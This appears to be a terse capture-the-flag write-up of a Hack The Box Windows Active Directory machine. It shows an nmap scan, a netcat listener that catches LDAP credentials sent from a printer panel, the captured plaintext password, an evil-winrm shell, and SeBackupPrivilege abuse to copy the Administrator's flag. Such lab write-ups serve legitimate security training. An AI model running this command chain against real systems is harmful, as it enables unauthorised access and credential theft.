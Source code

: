 #windows #active-directory 

# NMAP scan

```shell
Nmap scan report for 10.129.95.241
Host is up (0.0018s latency).
Not shown: 65509 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-10 16:40:49Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49701/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: PRINTER; OS: Windows; CPE: cpe:/o:microsoft:windows


```

# Port 80 has a printer that sends credentials to port 389, modified the ip and created a netcat server to receive the request that contains svc-printer credentials

```shell
nc -lnvp 389
```

```shell
svc-printer:1edFg43012!!
```

# user has read access on admin shares


```shell
cme smb 10.129.95.241 -u svc-printer -p '1edFg43012!!' --shares
```

# gained shell using evil-winrm

```shell
evil-winrm -ip 10.129.95.241 -u svc-printer -p '1edFg43012!!'

```

# svc-printer is a member of backup operator group

```powershell

whoami /all

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeLoadDriverPrivilege         Load and unload device drivers      Enabled
SeSystemtimePrivilege         Change the system time              Enabled
SeBackupPrivilege             Back up files and directories       Enabled
SeRestorePrivilege            Restore files and directories       Enabled
SeShutdownPrivilege           Shut down the system                Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeRemoteShutdownPrivilege     Force shutdown from a remote system Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
SeTimeZonePrivilege           Change the time zone                Enabled


```


# Downloaded the [SeBackup dll files](https://github.com/k4sth4/SeBackupPrivilege), imported and configured it to the machine, then used a powerview command to copy the root.txt flag from Administrator to the user's folder


```powershell
*Evil-WinRM* PS C:\Users\svc-printer\Documents\SeBackupPrivilege> import-module ./SeBackupPrivilegeCmdLets.dll
*Evil-WinRM* PS C:\Users\svc-printer\Documents\SeBackupPrivilege> import-module ./SeBackupPrivilegeUtils.dll

*Evil-WinRM* PS C:\Users\svc-printer\Documents\SeBackupPrivilege> Set-SeBackupPrivilege # configured the dll files
*Evil-WinRM* PS C:\Users\svc-printer\Documents\SeBackupPrivilege> Get-SeBackupPrivilege
*Evil-WinRM* PS C:\Users\svc-printer\Documents\SeBackupPrivilege> Copy-FileSeBackupPrivilege C:/Users/Administrator/Desktop/root.txt ./root.txt

```

